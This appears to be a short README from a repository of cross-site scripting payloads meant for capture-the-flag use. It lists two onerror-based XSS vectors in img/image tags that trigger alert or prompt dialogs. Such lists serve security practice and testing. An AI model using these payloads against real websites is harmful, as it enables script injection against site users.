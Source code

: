 # XSS-Payloads
XSS Payloads for CTF uses

## Onerror payloads
<img onerror=alert(1) src <u></u>
<image/src/onerror=prompt(8)>
